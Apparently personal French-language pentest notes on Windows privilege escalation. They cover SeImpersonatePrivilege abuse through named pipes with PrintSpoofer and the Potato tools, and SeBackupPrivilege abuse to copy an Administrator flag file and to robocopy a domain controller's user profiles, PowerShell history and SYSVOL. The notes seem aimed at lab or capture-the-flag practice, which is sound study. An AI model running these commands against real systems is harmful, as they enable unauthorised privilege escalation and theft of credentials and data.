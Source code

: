 ## Privilèges utiles:
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug
## Comptes utiles:
* LOCAL SERVICE
* NETWORK SERVICE
* SERVICE

# named pipes
Méthode de communication local ou distante inter-processus
Forcer un processus avec privilèges suffisants à se connecter sur un named pipe avec **SeImpersonatePrivilege**

# Outils
## Printspoofer
https://github.com/itm4n/PrintSpoofer
Vérifier que le service roule avant: ```Get-Service Spooler```
vérifier que le pipe ```\\.\pipe\spoolss``` est ouvert: ```(get-childitem \\.\pipe\).FullName```

```
.\printspoofer.exe -i -c cmd
```

Potato (RottenPotato, SweetPotato, Juicy Potato)
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

# SeBackupPrivilege
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege

dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
robocopy "\\DC01\C$\users" "C:\users\backupdc012" /lev:5 /s /b
robocopy "\\DC01\C$\users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell" "C:\users\adminpowershell" /lev:5 /s /b
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
On peut éditer les privilèges en copiant tout les policies sur notre machine, éditer puis renvoyer
Doit pouvoir mettre à jour les policies ou redémarrer le PC.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
robocopy "\\DC01\C$\Windows\SYSVOL" ".\SYSVOL" /e /b
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Voir sur internet, pas encore réussi